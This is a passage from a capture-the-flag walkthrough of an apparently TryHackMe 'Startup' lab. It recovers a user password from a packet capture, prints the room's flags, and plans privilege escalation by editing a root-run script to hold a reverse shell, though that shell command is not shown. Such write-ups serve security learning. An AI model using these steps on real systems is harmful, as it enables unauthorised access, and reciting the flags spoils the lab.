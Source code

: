 ```
-rwxr-xr-x    1 33       33          31224 Dec 06 06:55 suspicious.pcapng
226 Directory send OK.
```
- We can now download this file using the `get` command.
```
ftp> get suspicious.pcapng
local: suspicious.pcapng remote: suspicious.pcapng
229 Entering Extended Passive Mode (|||41055|)
150 Opening BINARY mode data connection for suspicious.pcapng (31224 bytes).
100% |***********************************************************************************************************************************************************************************************| 31224      118.42 KiB/s    00:00 ETA
226 Transfer complete.
31224 bytes received in 00:00 (79.21 KiB/s)
```
- We can now use Wireshark to analyze the packet capture.
- In frame 45 we can see that the user has entered some commands.
![[7 18.png]]
- Let `Follow TCP Stream`.
![[8 10.png]]
- The password for the `lennie` user is `c4ntg3t3n0ughsp1c3`.
```
www-data@startup:/$ su lennie
Password: 
lennie@startup:/$ 
```
- We can now go to `/home/lennie` and get the flag.
```
lennie@startup:/$ cd /home/lennie/
lennie@startup:~$ ls
Documents  scripts  user.txt
lennie@startup:~$ cat user.txt 
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```
## Answer
```
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```

## Question
> What are the contents of root.txt?
- Let's check what's inside the `scripts/` directory.
```
lennie@startup:~$ cd scripts/
lennie@startup:~/scripts$ ls
planner.sh  startup_list.txt
```
- We can check what the `planner.sh` file is doing using `cat`.
```
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```
- We can see that it execute the `/etc/print.sh` file.
- Let's check that file out.
```
lennie@startup:~/scripts$ ls -la /etc/ | grep "print.sh"
-rwx------  1 lennie lennie    25 Nov 12  2020 print.sh
```
- So we can execute the `print.sh` file as `lennie`.
- But before that let's modify it to get a reverse shell.
- We can get a bash reverse shell from Revshells.com.